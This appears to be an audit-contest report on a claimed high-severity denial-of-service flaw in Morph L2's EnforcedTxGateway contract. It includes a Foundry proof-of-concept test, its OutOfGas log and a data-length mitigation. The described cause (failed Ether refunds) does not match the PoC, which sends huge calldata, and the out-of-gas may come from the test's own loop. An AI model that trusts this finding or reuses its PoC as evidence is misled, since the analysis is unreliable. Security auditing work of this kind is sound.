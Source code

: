 Massive Chili Rabbit

High

# EnforcedTxGateway contract has Denial of Service (DoS) with Failed Calls in sendTransaction function

## **Denial of Service (DoS) with Failed Calls**

### **Overview**

- **Issue Type:** Denial of Service (DoS)  
- **Severity Level:** High  
- **Auditor:** fat32  
- **Affected Contract:** `EnforcedTxGateway.sol`  
- **Vulnerable Function:** `_sendTransaction`  
- **Location:** [EnforcedTxGateway.sol#L90-L100](https://github.com/sherlock-audit/2024-08-morphl2/blob/main/morph/contracts/contracts/l1/gateways/EnforcedTxGateway.sol#L90-L100) , [EnforcedTxGateway.sol#L177-L206](https://github.com/sherlock-audit/2024-08-morphl2/blob/main/morph/contracts/contracts/l1/gateways/EnforcedTxGateway.sol#L177-L206)  

### **Impact**
The _sendTransaction internal function in the EnforcedTxGateway contract makes external calls to both feeVault and _refundAddress using low-level call without robust handling for potential failures via sendTransaction external function.

If either the feeVault or _refundAddress is a contract that rejects Ether transfers (e.g., lacks a payable fallback function), these calls will fail.

The failure of these external calls causes the entire transaction to revert.

Legitimate transactions will be blocked, leading to a denial of service and potentially disrupting the contract’s intended functionality.

### **Vulnerable Code**

```solidity
// Vulnerable Function: _sendTransaction
https://github.com/sherlock-audit/2024-08-morphl2/blob/main/morph/contracts/contracts/l1/gateways/EnforcedTxGateway.sol#L177-L206

function _sendTransaction(
    address _sender,
    address _target,
    uint256 _value,
    uint256 _gasLimit,
    bytes calldata _data,
    address _refundAddress
) internal nonReentrant {...
```

### **Proof of Concept (POC)**

#### **Foundry Test Code**
```txt
morph/contracts/contracts/test/EnforcedTxGateway.t.sol
```
```solidity
// SPDX-License-Identifier: MIT

pragma solidity =0.8.24;

import "../../lib/forge-std/src/Test.sol";
import "../../../../../../../../contracts/l1/gateways/EnforcedTxGateway.sol";

// solhint-disable reason-string

contract EnforcedTxGatewayTest is Test {

    EnforcedTxGateway enforcedtxgateway;
    function setUp() public {
        enforcedtxgateway = new EnforcedTxGateway();
    }

function testDoSEnforcedTxGateway() external {
        address account = address(this);
        string memory input = "0xhex";
        uint256 times = 1000000;
        bytes memory data = bytes(multiplyString(input, times));
        vm.startPrank(address(0xbEEF));
        enforcedtxgateway.sendTransaction(account,uint256(1e18),uint256(1e18),data);
        vm.stopPrank();
    }

    function multiplyString(string memory input, uint256 times) public pure returns (string memory) {
        // create genreate large bytes function
        if (times == 0) {
            return "";
        }

        bytes memory inputBytes = bytes(input);
        uint256 inputLength = inputBytes.length;
        uint256 resultLength = inputLength * times;

        bytes memory result = new bytes(resultLength);

        for (uint256 i = 0; i < times; i++) {
            for (uint256 j = 0; j < inputLength; j++) {
                result[i * inputLength + j] = inputBytes[j];
            }
        }

        return string(result);
    }
}
```

#### **Foundry Log Results**

```plaintext
contracts % forge test -v --match-contract EnforcedTxGatewayTest
[⠊] Compiling...
Ran 1 test for contracts/test/EnforcedTxGateway.t.sol:EnforcedTxGatewayTest
[FAIL: EvmError: OutOfGas] testDoSEnforcedTxGateway() (gas: 1073720760)
Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 2.28s (2.27s CPU time)

Ran 1 test suite in 2.28s (2.28s CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in contracts/test/EnforcedTxGateway.t.sol:EnforcedTxGatewayTest
[FAIL: EvmError: OutOfGas] testDoSEnforcedTxGateway() (gas: 1073720760)

Encountered a total of 1 failing tests, 0 tests succeeded
```

### **Mitigation**

To safeguard the EnforcedTxGateway contract against Denial of Service (DoS) attacks stemming from excessively large bytes data inputs, it is essential to impose a strict limit on the size of the _data parameter in the sendTransaction function.

#### **Solidity Code Mitigation**

```solidity
function sendTransaction(
        address _target,
        uint256 _value,
        uint256 _gasLimit,
        bytes calldata _data
    ) external payable whenNotPaused {
        // solhint-disable-next-line avoid-tx-origin
        require(msg.sender == tx.origin, "Only EOA senders are allowed to send enforced transaction");

        // **Mitigation:** Enforce maximum data length to prevent DoS attacks
        require(_data.length <= MAX_DATA_LENGTH, "Data payload too large");

        _sendTransaction(msg.sender, _target, _value, _gasLimit, _data, msg.sender);
    }
```